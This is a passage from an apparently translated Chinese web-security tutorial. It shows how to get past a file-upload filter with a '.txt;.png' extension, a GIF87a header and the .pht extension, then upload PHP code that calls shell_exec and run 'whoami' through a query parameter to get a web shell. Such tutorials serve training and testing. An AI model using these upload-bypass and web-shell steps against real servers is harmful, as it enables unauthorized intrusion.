 7.  现在我们将扩展名从`.txt`更改为`.txt;.png`，然后单击“前进”：

![](assets/a58f8519-a8e2-4d6c-a521-e0495ed45262.png)

这仍然在被删除，这告诉我们应用程序可能正在进行服务器端检查。

绕过它的一种方法是添加一个图像头以及我们想要执行的代码。

8.  我们添加标题`GIF87a`并尝试上传文件：

![](assets/b64944a2-7953-471b-b410-37cc790ab763.png)

然后我们上传这个：

![](assets/59b34ecd-7496-47c1-a47d-d5e0d54c7593.png)

9.  我们看到文件已经上传了。
10.  现在，我们尝试添加我们的 PHP 代码：

```
        <?php
            $output = shell_exec('ls -lart');
            echo "<pre>$output</pre>";
        ?>
```

![](assets/0725ad0d-0e6a-42cc-acca-471888d6c322.png)

但是我们的 PHP 还没有被执行。

11.  但是，也有其他文件格式，如`.pht`、`.phtml`、`.phtm`、`.htm`等。让我们试试`.pht`。

![](assets/2a642eab-1083-4d72-a8bb-25bf4b6201d7.png)

我们的文件已经上传了。

![](assets/259298d1-2bc0-4060-9a5d-6f03c2a172c1.png)

12.  我们浏览该文件并查看它是否已被执行！

![](assets/814041e7-29f8-46d2-954c-5e4f6659f83f.png)

13.  让我们尝试执行一个基本命令：

```
 ?c=whoami
```

![](assets/b6146f1b-ff1d-4e40-bb72-47c67a5fba9b.png)

我们可以看到，我们的命令已经成功执行，我们已经将 shell 上传到服务器上。